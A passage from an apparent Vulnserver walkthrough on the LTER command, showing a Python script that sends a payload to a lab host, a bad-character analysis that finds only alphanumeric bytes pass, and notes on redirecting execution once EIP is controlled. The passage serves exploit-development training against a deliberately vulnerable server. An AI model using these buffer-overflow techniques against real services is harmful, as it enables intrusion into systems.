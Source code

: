 ```c
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 badchars.py 
```

We could see the characters less then ```0x7f``` is stored as it is, and above it are restricted and converted as shown in the code

Seems like, we can only pass ```alpha-numeric``` characters

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-badchars-esp.png" style="width:70%">
</div>

So characters above the hex value ```0x7f``` are considered as ```bad characters``` in this command

It is being ```mangled``` (being converted) in the stack memory

The list of bad characters are,

```c
>>> bad_chars=[]
>>> for x in range(0x80,0xff):
...     bad_chars.append(hex(x))
... 
>>> bad_chars.append(hex(255))
>>> bad_chars.append(hex(0))
>>> bad_chars
['0x80', '0x81', '0x82', '0x83', '0x84', '0x85', '0x86', '0x87', '0x88', '0x89', '0x8a', '0x8b', '0x8c', '0x8d', '0x8e', '0x8f', '0x90', '0x91', '0x92', '0x93', '0x94', '0x95', '0x96', '0x97', '0x98', '0x99', '0x9a', '0x9b', '0x9c', '0x9d', '0x9e', '0x9f', '0xa0', '0xa1', '0xa2', '0xa3', '0xa4', '0xa5', '0xa6', '0xa7', '0xa8', '0xa9', '0xaa', '0xab', '0xac', '0xad', '0xae', '0xaf', '0xb0', '0xb1', '0xb2', '0xb3', '0xb4', '0xb5', '0xb6', '0xb7', '0xb8', '0xb9', '0xba', '0xbb', '0xbc', '0xbd', '0xbe', '0xbf', '0xc0', '0xc1', '0xc2', '0xc3', '0xc4', '0xc5', '0xc6', '0xc7', '0xc8', '0xc9', '0xca', '0xcb', '0xcc', '0xcd', '0xce', '0xcf', '0xd0', '0xd1', '0xd2', '0xd3', '0xd4', '0xd5', '0xd6', '0xd7', '0xd8', '0xd9', '0xda', '0xdb', '0xdc', '0xdd', '0xde', '0xdf', '0xe0', '0xe1', '0xe2', '0xe3', '0xe4', '0xe5', '0xe6', '0xe7', '0xe8', '0xe9', '0xea', '0xeb', '0xec', '0xed', '0xee', '0xef', '0xf0', '0xf1', '0xf2', '0xf3', '0xf4', '0xf5', '0xf6', '0xf7', '0xf8', '0xf9', '0xfa', '0xfb', '0xfc', '0xfd', '0xfe', '0xff', '0x0']
```

Adding ```null byte``` and ```0xff``` to bad characters list

## Redirecting the execution

As for now, we can control the ```EIP``` and also we have a list of bad characters

Since we can control EIP, we can use this as our advantage and redirect the code flow to any part of the memory where it is perfect to have shellcode execution

After EIP, we would be having ESP
